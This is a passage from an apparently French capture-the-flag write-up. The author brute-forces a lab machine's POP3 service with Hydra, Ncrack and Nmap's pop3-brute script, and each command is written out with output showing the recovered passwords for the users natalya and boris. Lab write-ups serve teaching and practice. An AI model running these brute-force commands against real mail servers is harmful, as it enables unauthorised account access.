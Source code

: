 J'ai d'abord tenté une attaque brute force avec le vénérable `THC Hydra`. J'ai remarqué (en surveillant le trafic) que par défaut il procédait à une authentification en base64 sur le POP3 :

```
Ym9yaXMAYm9yaXMAcGFsb21h
```

Ce qui se décode en `borisborispaloma`... Il semble qu'un bug double le nom d'utilisateur. En spécifiant une authentification en clair ça fonctionne :

```console
$ hydra -u -L users.txt -P wordlists/fasttrack.txt pop3://192.168.56.101:55007/CLEAR
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-05 12:17:38
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 444 login tries (l:2/p:222), ~28 tries per task
[DATA] attacking pop3://192.168.56.101:55007/CLEAR
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 364 to do in 00:05h, 16 active
[STATUS] 64.33 tries/min, 193 tries in 00:03h, 251 to do in 00:04h, 16 active
[55007][pop3] host: 192.168.56.101   login: natalya   password: bird
[55007][pop3] host: 192.168.56.101   login: boris   password: secret1!
```

`Hydra` s'est montré assez lent et semble mal gérer ses threads : à la fin, il reste à tourner un long moment sans activité réseau.

On peut aussi réaliser l'attaque avec `Ncrack`

```console
$ ncrack --passwords-first -U users.txt -P wordlists/fasttrack.txt --connection-limit 16 -T5 pop3://192.168.56.101:55007

Starting Ncrack 0.8 ( http://ncrack.org ) at 2023-05-05 12:37 CEST

Discovered credentials for pop3 on 192.168.56.101 55007/tcp:
192.168.56.101 55007/tcp pop3: 'natalya' 'bird'
192.168.56.101 55007/tcp pop3: 'boris' 'secret1!'

Ncrack done: 1 service scanned in 567.04 seconds.

Ncrack finished.
```

C'est déjà plus rapide.

`Nmap` dispose aussi d'un script NSE pour le brute force :

```console
$ nmap --script=+pop3-brute --script-args userdb=users.txt,passdb=wordlists/fasttrack.txt -p T:55007 192.168.56.101
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 12:50 CEST
Nmap scan report for 192.168.56.101
Host is up (0.00048s latency).

PORT      STATE SERVICE
55007/tcp open  unknown
| pop3-brute: 
|   Accounts: 
|     natalya:bird - Valid credentials
|     boris:secret1! - Valid credentials
|_  Statistics: Performed 266 guesses in 230 seconds, average tps: 1.0

Nmap done: 1 IP address (1 host up) scanned in 229.82 seconds
```
